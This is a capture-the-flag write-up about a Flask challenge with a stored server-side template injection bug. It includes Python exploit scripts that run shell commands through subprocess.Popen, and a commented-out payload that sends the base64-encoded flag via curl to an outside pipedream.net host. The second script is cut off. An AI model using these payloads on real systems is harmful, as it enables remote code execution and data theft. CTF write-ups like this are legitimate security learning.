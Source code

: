 There's a rabbit hole at `/error` (or so i thought) which will trigger an error and we know that debug mode is turned on, and that we can see the stack trace (but we cant do anything since we can't interact with it because the command console is locked with a pin)

So i start the hard way, by reviewing the code itself (you know why its hard ? because of the language that i dont understand XD, i gotta jump back and forth to google translate)

But after a while i noticed something good here (as the chall description said that this code didnt even pass the QA) so i know that we can reproduce the bug in this way :  

- Going to `/profile` and putting `name` argument using some arbitrary template injection payload, this will make our payload stored in the db (specifically in `nombre` column inside `usuarios` table)  

- Then when we make post request to `/sendMessage`, it will make a query of `query_db('SELECT nombre FROM usuarios ORDER BY usuario_id DESC', one=True)['nombre']` which means that it will take the one last inputted `nombre` in `usuarios` table and use it inside this code `msg.body = render_template_string(acc_tmpl.replace('SERVIDOR', thequery), mensaje=request.form['body'])`  

  But here's the thing to consider, in acc_tmpl there is already a template string : `{{ mensaje }}` which turned out to be anothe rabbit hole if you try to inject your payload here because there are two template render in the code, the first one using `render_template_string` and the second one is using `render_template`, so if we put our payload on the `mensaje`, it won't triggered since the first template render will render it as a string thus we can't do anything with it.

  But it doesn't stop there since we can still inject our payload using the `SERVIDOR` part from the first template render

I tried my exploit code, it doesn't work and i was a little bit confused here at the time, but i notice that its such a bad challenge because our payload can actually be overriden by other people that try to exploit this chall too :( (because of the `insert and select from last` query)

So i inject my payload 5 times and i listen by always creating post request to `/sendMessage`

I used a simple flask ssti payload that's using `subprocess.Popen`

The first exploit code (to inject the payload) :
```python
import requests

payload = [
    # ' \'\'.__class__.__mro__[1].__subclasses__()[401](\'curl "https://aeb145bc424a63e5152a44b9404cf984.m.pipedream.net?flag="+$(cat flag.txt | base64)\', shell=True, stdout=-1).communicate() '
    ' \'\'.__class__.__mro__[1].__subclasses__()[401](\'strings * | base64\', shell=True, stdout=-1).communicate() '
]

ssti = 'https://faradaychallenge.herokuapp.com/profile?name={{%s}}'

for _ in range(5):
    for i in payload:
        a = requests.get(ssti % (i))
```

The second exploit code (to listen to the stored payload and see the result) :
```python
import requests
import time 

sendMessage = 'https://faradaychallenge.herokuapp.com/sendMessage'

counter = 0
while True:
    print(f'{counter}--------------------------------------------------------------------')
    counter += 1
    obj = {
        'dest': 'pastaflora%40faradaysec.com',
        'subject': 'asd',
        'body': 'asd',
```